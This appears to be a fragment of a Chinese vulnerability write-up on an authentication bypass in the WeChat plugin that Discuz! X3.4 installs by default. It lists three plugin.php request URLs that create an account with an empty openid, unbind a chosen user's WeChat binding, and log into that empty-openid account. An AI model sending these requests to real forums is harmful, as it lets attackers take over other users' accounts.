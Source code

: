 由于DZ 3.4默认安装了，攻击者可以利用该漏洞越权登陆。

> 通过/plugin.php?id=wechat:wechat&ac=wxregister&username={name}这种方式可以使openid为空， 但注册的是一个新的账号。

> 解除指定uid绑定的微信：
>
> /plugin.php?id=wechat:wechat&ac=unbindmp&uid={uid}&hash={formhash}

> 登陆第一个openid为空的账号：/plugin.php?id=wechat:wechat&ac=wxregister

